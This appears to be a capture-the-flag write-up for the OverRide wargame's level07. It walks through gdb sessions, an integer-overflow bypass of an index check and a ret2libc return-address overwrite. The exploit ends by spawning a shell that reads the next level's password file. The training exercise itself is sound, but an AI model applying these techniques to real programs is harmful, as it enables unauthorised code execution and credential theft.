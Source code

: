 Running this binary, we get : 

	level07@OverRide:~$ ./level07 
	----------------------------------------------------
	Welcome to wil's crappy number storage service!   
	----------------------------------------------------
	Commands:                                          
		store - store a number into the data storage    
		read  - read a number from the data storage     
		quit  - exit the program                        
	----------------------------------------------------
	wil has reserved some storage :>                 
	----------------------------------------------------

	Input command: 

We can store one number at a time in a given index. There is a security that prevents using any index divisible by 3 though, so index 0, 3, 6, etc..., are unwritable. Also, we can't access environment variables, so we won't be able to store a payload there. The most obvious thing to do is a ret2libc, where we overflow the stack return address with another function, in our case a call to system with /bin/sh as argument.

First, we need to know where we can overwrite the return address. First of all, let's find it by setting a breakpoint at the end of our program and looking at eip :

	(gdb) b *main+718
	Breakpoint 3 at 0x80489f1
	[...]
	Breakpoint 3, 0x080489f1 in main ()
	(gdb) i r
	[...]
	eip            0x80489f1	0x80489f1 <main+718> <-- not this one
	[...]
	(gdb) si
	0xf7e45513 in __libc_start_main () from /lib32/libc.so.6
	(gdb) i r
	[...]
	eip            0xf7e45513	0xf7e45513 <__libc_start_main+243>
	[...]

The second one is the one we want : 0xf7e45513

We can also have a look at the stack by using an easily identifiable number, for instance 238 <=> 0xee (at the index 1 because we can't access 0)

	Input command: store
	Number: 238
	Index: 1

	Breakpoint 3, 0x080486d5 in store_number ()
	(gdb) x/100x $esp
	0xffffd4f0:	0x08048add	0xffffd544	0x00000000	0xf7e2b6c0
	0xffffd500:	0xffffd708	0xf7ff0a50	0x000000ee	0x00000001
	0xffffd510:	0x00000000	0xffffdfdc	0xffffd708	0x080488ef
	0xffffd520:	0xffffd544	0x00000014	0xf7fcfac0	0xf7fdc714
	0xffffd530:	0x00000098	0xffffffff	0xffffd7fc	0xffffd7a8
	0xffffd540:	0x00000000	0x00000000	0x000000ee	0x00000000 <------ here
	0xffffd550:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd560:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd570:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd580:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd590:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd5a0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd5b0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd5c0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd5d0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd5e0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd5f0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd600:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd610:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd620:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd630:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd640:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd650:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd660:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd670:	0x00000000	0x00000000	0x00000000	0x00000000

Lets find its address :

	(gdb) x 0xffffd548
	0xffffd548:	0x000000ee

If we keep going a bit further, we can find the eip return value we saw earlier :

	0xffffd680:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd690:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd6a0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd6b0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd6c0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd6d0:	0x00000000	0x00000001	0x726f7473	0x00000065
	0xffffd6e0:	0x00000000	0x00000000	0x00000000	0x4cfa9200
	0xffffd6f0:	0xf7feb620	0x00000000	0x08048a09	0xf7fceff4
	0xffffd700:	0x00000000	0x00000000	0x00000000	0xf7e45513 <----- return address
	0xffffd710:	0x00000001	0xffffd7a4	0xffffd7ac	0xf7fd3000
	0xffffd720:	0x00000000	0xffffd71c	0xffffd7ac	0x00000000
	0xffffd730:	0x080482b8	0xf7fceff4	0x00000000	0x00000000
	0xffffd740:	0x00000000	0xfe293c18	0xc92eb808	0x00000000
	0xffffd750:	0x00000000	0x00000000	0x00000001	0x08048510
	0xffffd760:	0x00000000	0xf7ff0a50	0xf7e45429	0xf7ffcff4
	0xffffd770:	0x00000001	0x08048510	0x00000000	0x08048531
	0xffffd780:	0x08048723	0x00000001	0xffffd7a4	0x08048a00
	0xffffd790:	0x08048a70	0xf7feb620	0xffffd79c	0xf7ffd918
	0xffffd7a0:	0x00000001	0xffffd8cc	0x00000000	0xffffd8e8
	0xffffd7b0:	0xffffd8f8	0xffffd90c	0xffffd92f	0xffffd942
	0xffffd7c0:	0xffffd94f	0xffffde70	0xffffde7c	0xffffdec9
	0xffffd7d0:	0xffffdee0	0xffffdeef	0xffffdf07	0xffffdf18
	0xffffd7e0:	0xffffdf21	0xffffdf3a	0xffffdf42	0xffffdf54
	0xffffd7f0:	0xffffdf64	0xffffdf9a	0xffffdfba	0x00000000
	0xffffd800:	0x00000020	0xf7fdb430	0x00000021	0xf7fdb000

Again, we get its address :

	(gdb) x 0xffffd70c
	0xffffd70c:	0xf7e45513

We stored the number ee at index 1, So we can know where is located the return address with a simple substraction : 0x70c - 0x548 = 0x1c4, 452 in decimal. One index can store 4 bytes, so if we divide it by 4 we get index 113. Let's keep in mind that we used index 1 instead of 0, so we need to add 1 to the result, we get the index 114.

Let's try to store something here to see what happens :

	Input command: store
	Number: 1111
	Index: 114
	*** ERROR! ***
	This index is reserved for wil!
	*** ERROR! ***
	Failed to do store command

Of course 114 % 3 = 0, so we can't write in there. However, there is one specific line in store_number that is interesting :

   0x080486c5 <+149>:	shl    $0x2,%eax

Basically, to go from indexes to bytes the binary will byteshift to the left twice (equivalent to multiply by 4).

114 in binary is 1110010, the 32bit repr is 00000000000000000000000001110010

If we byteshift left twice, we get : 00000000000000000000000111001000 (456 in dec, obviously).
But here's the thing : The 2 most significant bytes are removed. That means whatever is stored in them won't have an impact on the final result. Let's take our 114 in 32-bit repr, and add a 1 at the second MSB (to avoid negative numbers). We now get :

	01000000000000000000000001110010

This is equal to 1073741938 in decimal. That means byteshifting twice this number will yield the same result as byteshifting twice 114. By passing this number, we can access the index 114 (note that this number is not divisible by 3 itself, otherwise we still could not access index 114). Let's check it :

	Input command: store
	Number: 1234 
	Index: 1073741938
	Completed store command successfully
	Input command: read
	Index: 114
	Number at data[114] is 1234
	Completed read command successfully
	Input command: quit
	Segmentation fault (core dumped)

	level07@OverRide:~$ dmesg
	[...]
	[24161.934779] level07[3134]: segfault at 4d2 ip 00000000000004d2 sp 00000000ffffd730 error 14 in level07[8048000+1000]

0x4d2 <=> 1234, this way we can sucessfully store anything we want at the index 114.

Now, we just have to find the adresses of system, "/bin/sh", and exit (to gracefully exit the program, because segfaults can be detected).

[source](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc)

(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>

(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>

(gdb) info proc map
process 1936
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/users/level07/level07
	 0x8049000  0x804a000     0x1000     0x1000 /home/users/level07/level07
	 0x804a000  0x804b000     0x1000     0x2000 /home/users/level07/level07
	0xf7e2b000 0xf7e2c000     0x1000        0x0 
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
	0xf7fd0000 0xf7fd4000     0x4000        0x0 
	0xf7fd8000 0xf7fdb000     0x3000        0x0 
	0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
	0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
	0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
	0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2c000,0xf7fd0000,"/bin/sh"
0xf7f897ec
1 pattern found.

Now we need to convert these addresses to decimal and store them using the binary :

system :    0xf7e6aed0 <=> 4159090384
exit :      0xf7e5eb70 <=> 4159040368
/bin/sh :   0xf7f897ec <=> 4160264172

level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ cd ../level08
$ cat .pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
